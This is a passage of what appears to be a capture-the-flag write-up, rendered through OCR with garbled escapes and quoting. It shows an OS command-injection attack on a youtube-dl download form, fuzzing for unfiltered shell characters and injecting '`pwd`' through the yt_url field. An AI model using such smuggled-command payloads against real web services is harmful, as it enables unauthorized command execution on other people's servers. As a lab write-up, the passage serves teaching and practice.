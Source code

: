 ``` python
{"status": 127, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ nsh: 1: -f: not found \ n " , "url_orginal": ";", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed76e5027755.mp3"}

{"status": 2, "errors": "sh: 1: Syntax error: EOF in backquote substitution \ n", "url_orginal": "" "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76e5d991f2.mp3 "}

TRYING: | =====================================

{"status": 127, "errors": "sh: 1: -f: not found \ nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage : youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ n " , "url_orginal": "|", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed76e5ecc62e.mp3"}

['"', '&'," '",' (',') ','; ','` ',' | ']

```
## EXPLOITATION
So we have filtered characters that will evaluate to bash
One of the signs that were positively checked was "` ". It's called "backquote". This cookie is one of the ways of executing a command in another command. When this nested command is executed, its result will go to the "before" command. In our case, this original command with the result of a nested command will almost always return an error. The whole thing is that the server processes errors incorrectly, displaying them to us in communication
Let's change the variable "date" to

```python
{'yt_url': ''. join (ch) + '`pwd`'}
```

After executing the script, many of the characters gave a value

``` bash
sh: 1: \ / var \ / www \ / html: Permission denied
```
So it's time to filter the characters further. We change the condition to

``` python
if "sh: 1:" in r.text and "\ / var \ / www \ / html" in r.text:
```
``` python
$ python3 DMV: 1_script.py
! "# $% & '() * +, -. / :; <=>? @ [\] ^ _` {|} ~


TRYING: & =====================================

{"status": 126, "errors": "sh: 1: \ / var \ / www \ / html: Permission denied \ nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ n "," url_orginal ":" & `pwd`", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed7740393c9d.mp3"}


TRYING:; =====================================

{"status": 126, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ nsh: 1: \ / var \ / www \ / html: Permission denied \ n "," url_orginal ":"; `pwd`", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed7740c6b034.mp3"}

```
